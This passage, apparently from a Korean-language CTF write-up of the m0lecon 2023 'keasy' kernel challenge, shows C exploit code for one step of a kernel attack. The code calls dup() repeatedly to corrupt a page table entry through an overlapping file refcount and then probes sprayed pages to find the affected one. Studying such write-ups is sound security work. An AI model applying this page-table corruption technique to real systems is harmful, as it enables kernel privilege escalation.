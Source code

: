 ```c
// 영향을 받는 PTE를 알아내야 하기 때문에 PTE의 entry 7 (+0x38)의 값을 조작함
// -> 원래 file 구조체의 f_count 필드가 있는 위치이므로 dup(fd)를 통해 1씩 증가가 가능함
// 0x1000번 증가시키면 다음 page를 가리키게 되므로 H가 아닌 다른 값이 쓰여있을 것임
for (int i = 0; i < 0x1000; i++) {
    if (dup(easy_fd) < 0) {
        fatal("dup");
    }
}
printf("[*] dup\n");

// spray한 pages를 돌면서 easy_fd로 조작가능한 page 가상주소를 알아낼 수 있음
char *evil = NULL;
for (int i = 0; i < COUNT_PAGES; i++) {
    printf("[+] probing %p...", pages[i] + 0x7000);
    fflush(stdout);
    if (*(pages[i] + 0x7000) != 'A' + 7) {
        evil = pages[i] + 0x7000;
        break;
    }
    printf("fail\n");
}
printf("success\n[*] affected address: %p\n", evil);
```

그림으로 표현하면 다음과 같다(여기서는 예를 들기 위해 영향받는 페이지가 `pages[10]`이라고 가정한다).

<center>
    <a href="/assets/images/posts_img/writeups/m0lecon-2023-keasy/ack_affected_page_1.png" alt="ack_affected_page_1.png">
        <img src="/assets/images/posts_img/writeups/m0lecon-2023-keasy/ack_affected_page_1.png" alt="ack_affected_page_1.png">
    </a>
</center>
{% include gallery caption="`dup()` 호출 전 (좌) / `dup()` 호출 후 (우)" %}


[^1]: 한 파일에 대해서 65535개까지의 file descriptor를 가질 수 있기 때문이다.